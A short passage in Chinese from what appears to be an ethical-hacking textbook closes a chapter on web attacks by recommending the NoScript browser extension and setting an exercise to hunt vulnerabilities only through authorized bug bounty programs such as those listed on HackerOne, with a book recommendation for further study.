听起来有点吓人，对吧？为了保护自己，要注意你访问的网站，如果你特别偏执，可以安装 NoScript 插件。它会阻止浏览器运行任何 JavaScript。

### 练习：在漏洞奖励计划中寻找漏洞

现在该你自己去猎杀了。因为你是一个道德黑客，你不会在没有公司许可的情况下攻击它们。幸运的是，许多公司创建了*漏洞奖励计划*，允许道德黑客攻击它们的网站，并为发现的任何漏洞支付报酬。每个漏洞奖励计划都有自己的规则，列明可以攻击网站的哪些部分以及其他限制（例如，不允许社会工程学攻击）。*[Hackerone.com](http://Hackerone.com)* 维护着一个漏洞奖励计划的列表。为了在寻找漏洞时提升你的技能，看看 Peter Yaworski 的 *《现实世界漏洞狩猎》*（No Starch Press，2019），这本书描述了在参与漏洞奖励计划时发现的漏洞（以及所获得的奖励）。除了 XSS 和 SQL 注入，Yaworski 还介绍了其他漏洞，如竞态条件、内存漏洞和跨站请求伪造。祝你好运。
